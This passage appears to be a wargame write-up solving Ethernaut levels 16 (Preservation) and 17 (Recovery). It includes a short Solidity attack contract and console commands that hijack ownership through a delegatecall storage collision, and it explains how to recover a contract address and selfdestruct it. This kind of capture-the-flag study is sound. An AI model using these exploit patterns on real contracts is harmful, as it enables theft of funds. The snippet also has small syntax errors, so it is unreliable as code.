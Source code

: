 Using the contract below owning this contract can be acheived.
```
pragma solidity ^0.8.0;

contract PreservationAttack {

    // stores a timestamp
    address MalicioustimeZone1Library;
    address MalicioustimeZone2Library;
    address maliciousIndex;

    function setTime(uint _time) public {
        maliciousIndex = address(uint160(_time));
    }
}

await contract.setFirstTime("<insert the uint value of your malicious library contract>")
await contract.setFirstTime("<insert the uint value of your player>)

```
MAIN TAKEAWAY FROM CHALLENGE:
Do not forget that ideally, libraries should not store state and quoting the author's message: "This example demonstrates why the library keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables."

The order in which we list state variables in a contract correspond to slots in storage, and require particular attention when using delegatecall.
A great explanation on topics related to how this level is solved can be found on here https://medium.com/coinmonks/ethernaut-lvl-16-preservation-walkthrough-how-to-inject-malicious-contracts-with-delegatecall-81e071f98a12


## 17. Recovery
Solving this level we need to figure two things out, first the address of the new contract and then secondly we call the `selfdestruct()` function and transfer all the funds to any address we chose.
After reading the solidity docs, we know that contract addresses are deterministic and are calculated by `keccack256(RLP_encode(address, nonce))`. The nonce for a contract is the number of contracts it has created. All nonce's are 0 for contracts, but they become 1 once they are created (the completion of the creation makes the nonce 1). So here we need the creator address and the nonce, since we already know the recovery address, which in this case is our level instance address, we can calculate the contract address using this and the nonce, the nonce here is going to be one cause the receovery contract has gone through only one transaction.
We might need to read more about Read about RLP encoding in the Ethereum docs 
An easier way is to use etherscan to find out our generated contract address, since we already have our instance address we can go on etherscan and find out the address of the generated contract, now for this level after generating a new instance we can see that there are five transactions atttached:
- First, we send 0.001 ETH to the Ethernaut contract
- Which will create the Recovery contract for us
- The `generateToken()` method is called
- The SimpleToken contract is then created and we can get the address in this step
- Lastly, 0.001 ETH is transfered to the SimpleToken contract
